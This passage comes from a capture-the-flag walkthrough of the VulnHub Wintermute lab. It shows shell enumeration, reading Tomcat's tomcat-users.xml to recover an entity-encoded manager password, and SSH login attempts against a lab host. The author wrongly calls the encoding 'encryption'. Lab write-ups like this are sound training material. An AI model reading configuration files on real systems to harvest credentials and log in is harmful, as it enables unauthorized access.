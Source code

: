 ```
$ id
uid=1000(ta) gid=1000(ta) groups=1000(ta),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
$ uname -a
Linux neuromancer 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
$ find / -name tomcat 2> /dev/null
/usr/local/tomcat
$ cd /usr/local/tomcat/conf
$ cat tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
Eng.,

Tomcat is still using basic auth. I encoded the password so the AI's security scans don't flag it.

Is this what Bob keeps talking about, "Security by obscurity?"

Ed Occam//Sys.Engineer I//Night City
"Harry, I took care of it" - Llyod Christmas
-->

  <role rolename="manager-gui"/>
  <user username="Lady3Jane" password="&gt;&#33;&#88;&#120;&#51;&#74;&#97;&#110;&#101;&#120;&#88;&#33;&lt;" roles="manager-gui"/>

<!--
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
</tomcat-users>
```
From this we obtain an encrypted password. Using Burp to decrypt:
```
  user: lady3jane
  password:
```
ssh is case sensitive as we learnt, we wasted time using the user name below. Remember ssh is running on port 34483:

```
kali@kali:~/vulnhub/wintermute/privesc$ ssh Lady3Jane@192.168.251.7 -p 34483
The authenticity of host '[192.168.251.7]:34483 ([192.168.251.7]:34483)' can't be established.
ECDSA key fingerprint is SHA256:oUL2wjfAFRqayjqOgc79xVYeSqvD92zqaV+4udNxJrw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.251.7]:34483' (ECDSA) to the list of known hosts.
 ----------------------------------------------------------------
|                Neuromancer Secure Remote Access                |
| UNAUTHORIZED ACCESS will be investigated by the Turing Police  |
 ----------------------------------------------------------------
Lady3Jane@192.168.251.7's password:
Permission denied, please try again.
Lady3Jane@192.168.251.7's password:
Permission denied, please try again.
Lady3Jane@192.168.251.7's password:
Lady3Jane@192.168.251.7: Permission denied (publickey,password).
kali@kali:~/vulnhub/wintermute$ ssh lady3jane@192.168.251.7 -p 34483
 ----------------------------------------------------------------
```

[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator